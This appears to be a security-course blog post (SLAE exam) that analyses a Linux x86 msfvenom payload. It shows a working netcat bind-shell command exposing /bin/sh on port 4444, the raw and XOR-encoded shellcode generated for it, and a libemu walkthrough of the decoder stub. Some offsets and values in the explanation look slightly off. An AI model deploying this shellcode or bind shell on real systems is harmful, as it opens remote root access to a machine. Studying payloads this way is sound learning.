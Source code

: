 ![](/msfLogo.png)

For the 5th assignment of the SLAE Exam, I will be analyzing 3 different linux x86 shellcodes created with MSF Venom.
The first will be the payload: /linux/x86/exec
The command being executed will be: nc -nlp 4444 -e "/bin/sh" &
  - This will create a bind shell, on TCP port 4444, on all network interfaces, and then background the process.
Testing out the command:
```c
root# nc -nlp 4444 -e "/bin/sh" &
[1] 9119
root# netstat -tnalp | grep nc
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      9119/nc
```
We can see that the command successfully ran and was given the process ID 9119 and the job ID of 1.
Using netstat we see that the process nc is successfully listening on all interfaces (0.0.0.0), on TCP port 4444.
Since the job is running in the background, we can use the same terminal window to access our /bin/sh listening on all interfaces, by using netcat to connect to the localhost interface (127.0.0.1) on TCP port 4444.
```c
root# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root),46(plugdev)
```
We successfully are able to run commands with our netcat, bind shell.

Now we will use msfvenom to create a shellcode to execute our netcat, bind shell command. The output will be in C so we can easily add it to our shellcode.c program.
```c
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --format c
Payload size: 63 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x1c\x00\x00\x00\x6e"
"\x63\x20\x2d\x6e\x6c\x70\x20\x34\x34\x34\x34\x20\x2d\x65\x20"
"\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x20\x26\x00\x57\x53\x89"
"\xe1\xcd\x80";
```
This payload contains NULL bytes, rendering it useless for shellcode. We will use the builtin XOR encoder to encode our payload before we analyze it.
```c
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --format c --encoder x86/xor_dynamic     
x86/xor_dynamic chosen with final size 109
Payload size: 109 bytes
unsigned char buf[] =
"\xeb\x23\x5b\x89\xdf\xb0\x1a\xfc\xae\x75\xfd\x89\xf9\x89\xde"                                                         
"\x8a\x06\x30\x07\x47\x66\x81\x3f\x88\x02\x74\x08\x46\x80\x3e"                                                         
"\x1a\x75\xee\xeb\xea\xff\xe1\xe8\xd8\xff\xff\xff\x02\x1a\x68"                                                         
"\x09\x5a\x9b\x50\x64\x6a\x2f\x61\x8b\xe5\x6a\x2d\x71\x6a\x02"                                                         
"\x6a\x2d\x60\x6b\x6c\x8b\xe1\x50\xea\x1e\x02\x02\x02\x6c\x61"                                                         
"\x22\x2f\x6c\x6e\x72\x22\x36\x36\x36\x36\x22\x2f\x67\x22\x20"                                                         
"\x2d\x60\x6b\x6c\x2d\x71\x6a\x20\x22\x24\x02\x55\x51\x8b\xe3"                                                         
"\xcf\x82\x88\x02";
```
Perfect, now our shellcode is NULL free. Next we will use sctest from libemu to analyze the shellcode.
> I used my  64-bit Kali machine to create the 32-bit MSF Venom shellcode, and to analyze it with libemu. Unfortunately I could not find a trust-worthy download from the internet. Fortunately libemu is included in the kali repo.
```c
root# apt search libemu
libemu2/kali-rolling,now 0.2.0+git20120122-1.2+b1 amd64 [installed,automatic]
  x86 shellcode detection and emulation
```
Now that we have libemu, we will pipe our payload from msfvenom into sctest. Using sctest from libemu, we will create a visual map of how the shellcode is being executed.
```c
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --encoder x86/xor_dynamic | sctest -Ss 10000 -vvv -G execNC.dot
# Convert from dot to png
root# dot -Tpng execNC.dot -o execNC.png
# open png picture with eog
eog execNC.png
```
![](/execNC.png)

At first this may look a little over-whelming, but once we start breaking it down, we will see it is not that bad.
In the top most block, we can see that the shellcode is using the Jump-Call-Pop technique.

The first instruction `jmp 0x25`, jumps forward 25 bytes. This is a short jump. Short jumps use offsets instead of a hard-coded address. This allows the shellcode to work in the programs it is injected into.
The next instruction `call 0xffffffdd`, is a call instruction. This is similar to a jump instruction. Although before jumping, the instruction after the call instruction is pushed onto the stack. 
> This allows the program to return to where it was, once it is done execution where it was called to. In our situation, the next instruction is actually the memory location to our string. Our string is our entire, XOR'd shellcode payload. 
The 3rd instruction `pop ebx`, pop's the pointer to our payload off into the EBX Register. Once in the EBX Register, it is duplicated to the EDI Register using the instruction `mov, edi,ebx`.
We can see that the loop, outlined using the blue arrow, is a XOR decoder loop. The decoder decodes our shellcode byte by byte using the instruction `xor [edi], al`. 
After the byte is decoded, the EDI Register is moved forward one byte using the instruction `inc edi`. The instruction `cmp word [edi],0x971b` compares 2 bytes (a word) starting at the memory location of EDI, with the value 0x971b. If the compare instruction returns that the 2 words match, then the result will return a 0 (the cmp instruction subtracts the two values and sets the Zero Flag if Zero). The instruction `jz 0xa` will jump EIP (the instruction Pointer) forward 10 bytes if the last instruction returned zero. This insturction is "Jump if Zero", also know as "Jump if Equal". 
> If we do the math we can see that that would change our location from 0x00417019, to 0x00417023 (indicated by the black arrow). Remember that this is in Hex not in Decimal, do not be decieved thinking it is only moving forward four. 
>>    0  > 1  > 2  > 3  > 4  > 5  > 6  > 7  > 8  > 9  > 10
    
>>    19 > 1a > 1b > 1c > 1d > 1e > 1f > 20 > 21 > 22 > 23

